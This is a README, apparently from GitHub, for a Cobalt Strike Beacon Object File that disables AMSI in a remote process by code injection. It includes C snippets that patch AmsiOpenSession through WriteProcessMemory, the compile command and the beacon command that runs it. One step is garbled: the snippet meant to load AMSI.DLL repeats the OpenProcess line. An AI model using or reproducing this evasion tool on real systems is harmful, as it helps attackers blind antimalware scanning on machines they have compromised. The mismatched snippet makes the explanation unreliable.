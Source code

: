 ## Cobalt Strike BOF - Inject AMSI Bypass
Cobalt Strike Beacon Object File (BOF) that bypasses AMSI in a remote process with code injection.

#### Running inject-amsiBypass BOF from CobaltStrike 
  ![](runningBof.png)

### What does this do?
##### 1. Use supplied PID to get a handle on a remote process
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
##### 2. Load AMSI.DLL into beacons memory and get the address of AMSI.AmsiOpenSession
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
+ Both beacon and the target process will both have the same address for the symbol.
+ If AMSI.DLL does not exist in the remote process, running this may crash the target process.
##### 3. Write the AMSI bypass to the remote processes memory
```c
unsigned char amsibypass[] = { 0x48, 0x31, 0xC0 }; // xor rax, rax
BOOL success = KERNEL32$WriteProcessMemory(hProc, amsiOpenSessAddr, (PVOID)amsibypass, sizeof(amsibypass), &bytesWritten);
```

### Method = AMSI.AmsiOpenSession
+ Uses the AMSI bypass technique taught in Offensive Security's PEN-300/OSEP (Evasion Techniques and Breaching Defenses) course.
  - https://www.offensive-security.com/pen300-osep/

### Proof of Concept Demo Screenshots
#### Before - Powershell.exe AMSI.AmsiOpenSession
  ![](Before-Amsi-OpenSession.png)

#### After - Powershell.exe AMSI.AmsiOpenSession
  ![](After-AmsiOpenSession.png)

### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c inject-amsiBypass.c -o inject-amsiBypass.o
```
### Run from Cobalt Strike Beacon Console
```bash
beacon> inject-amsiBypass <PID>
```

### To Do List
+ Check that AMSI.DLL exists in remote process before injection
+ Add other AMSI bypasses to inject
+ Support x86

### Credits / References
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
##### Sektor7 Malware Dev Essentials course
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Offensive Security OSEP
+ https://www.offensive-security.com/pen300-osep/
